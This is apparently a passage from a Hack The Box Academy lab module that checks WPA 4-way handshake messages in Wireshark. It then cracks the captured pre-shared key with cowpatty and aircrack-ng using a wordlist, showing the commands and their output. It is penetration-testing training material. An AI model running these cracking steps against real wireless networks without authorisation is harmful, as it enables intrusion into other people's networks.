 ![image](https://academy.hackthebox.com/storage/modules/172/wireshark/message3/snip/nonono.txt)

We should see that the WPA Key nonce value is the same in message 3 as it is in message 1.

`Message 4`:

![image](https://academy.hackthebox.com/storage/modules/172/wireshark/message4/snip/nonono.txt)

For message four, we should see no key nonce value and only a MIC value.

As such, to verify the handshake in Wireshark, we can check the following:

- All four EAPOL messages exist per each handshake in sequential order
- Key nonce values are the same in message 1 and 3

* * *

## Cracking the MIC (4-Way Handshake)

There are a few different tools to crack a WPA handshake, such as John the Ripper, hashcat, cowpatty, and aircrack-ng among others.

First, let's explore how to perform this using `Cowpatty`. We specify the packet capture, the dictionary file, and also the SSID of the network.

```shell
cowpatty -r WPA-01.cap -f /opt/wordlist.txt -s HackTheBox

cowpatty 4.8 - WPA-PSK dictionary attack. <[email protected]>

Collected all necessary data to mount crack against WPA2/PSK passphrase.
Starting dictionary attack.  Please be patient.

The PSK is "<SNIP>".

18 passphrases tested in 0.06 seconds:  284.77 passphrases/second

```

We can also use `aircrack-ng` to crack the PSK from the captured WPA handshake.

```shell
aircrack-ng -w /opt/wordlist.txt -0 WPA-01.cap

Reading packets, please wait...
Opening -
Opening WPA-01.cap

   #  BSSID              ESSID                     Encryption

   1  80:2D:BF:FE:13:83  HackTheBox                WPA (1 handshake)

Choosing first network as target.

Reading packets, please wait...
Opening WPA-01.cap
Opening -
1 potential targets

                               Aircrack-ng 1.6

      [00:00:00] 83/10303727 keys tested (626.74 k/s)

      Time left: 4 hours, 34 minutes, 0 seconds                  0.00%

                          KEY FOUND! [ <SNIP> ]

      Master Key     : 2B CF 5F 47 88 34 B7 14 66 50 16 C2 CE 8B 43 A6
```